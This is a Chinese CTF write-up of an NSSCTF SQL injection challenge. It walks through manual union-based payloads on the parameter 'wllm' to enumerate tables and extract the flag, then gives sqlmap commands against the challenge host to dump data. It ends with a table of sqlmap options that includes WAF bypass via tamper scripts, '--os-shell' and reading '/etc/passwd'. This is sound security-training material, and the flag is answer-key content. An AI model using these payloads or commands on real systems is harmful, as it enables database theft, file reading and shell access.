


本题题目中已经说明了sql注入，并且网页给出了参数wllm
于是想到利用sql注入
## url中进行注入
### 1. 初始探测
- 访问目标页面，发现提示"参数是 wllm"
- 构造请求 `?wllm=1` 确认参数存在且页面回显数据

### 2. 漏洞确认
- 提交 `?wllm=1'` 触发SQL语法错误
- 页面返回MariaDB错误信息，确认存在SQL注入漏洞

### 3. 确定列数（ORDER BY法）
| 步骤 | Payload | 结果 |
|:---|:---|:---|
| 测试第1列 | `?wllm=1' ORDER BY 1-- -` | 正常回显 |
| 测试第2列 | `?wllm=1' ORDER BY 2-- -` | 正常回显 |
| 测试第3列 | `?wllm=1' ORDER BY 3-- -` | 正常回显 |
| 测试第4列 | `?wllm=1' ORDER BY 4-- -` | 报错"Unknown column '4'" |

**结论：查询返回3列数据**

### 4. 探测回显位
- Payload: `?wllm=-1' UNION SELECT 1,2,3-- -`
- 页面显示"Your Login name:2"和"Your Password:3"，确认第2、3列为回显位

### 5. 枚举数据库表名
- Payload: `?wllm=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()-- -`
- 获取表名：`test_tb, users`

### 6. 提取Flag
- Payload: `?wllm=-1' UNION SELECT 1,flag,3 FROM test_tb-- -`
- 页面回显：**NSSCTF{6af9524b-591d-4ab9-b7b2-0dcbcea35367}**


## 使用 sqlmap 进行 SQL 注入测试

针对目标 `http://node7.anna.nssctf.cn:25021/`（参数 `wllm`），以下是完整的 sqlmap 操作流程：

### 1. 基础探测

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" --batch
```

参数说明：
- `-u`：指定目标 URL
- `--batch`：自动选择默认选项，无需交互

### 2. 指定参数探测

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" -p wllm --batch
```

- `-p wllm`：明确指定测试参数为 `wllm`

### 3. 获取数据库信息

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" -p wllm --dbs --batch
```

- `--dbs`：枚举所有数据库

### 4. 获取当前数据库

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" -p wllm --current-db --batch
```

### 5. 获取表名

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" -p wllm -D test_db --tables --batch
```

- `-D test_db`：指定数据库名
- `--tables`：枚举表名

### 6. 获取列名

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" -p wllm -D test_db -T test_tb --columns --batch
```

- `-T test_tb`：指定表名
- `--columns`：枚举列名

### 7. 提取数据（获取 flag）

```bash
sqlmap -u "http://node7.anna.nssctf.cn:25021/?wllm=1" -p wllm -D test_db -T test_tb -C flag --dump --batch
```

- `-C flag`：指定列名
- `--dump`：提取数据



### 常用高级参数

| 参数 | 功能 |
|:---|:---|
| `--level=5` | 提升检测等级（1-5，默认1） |
| `--risk=3` | 提升风险等级（1-3，默认1） |
| `--threads=10` | 设置并发线程数 |
| `--proxy=http://127.0.0.1:8080` | 使用代理（如 Burp） |
| `--random-agent` | 使用随机 User-Agent |
| `--tamper=space2comment` | 使用 tamper 脚本绕过 WAF |
| `--os-shell` | 获取系统 shell（需权限） |
| `--file-read=/etc/passwd` | 读取服务器文件 |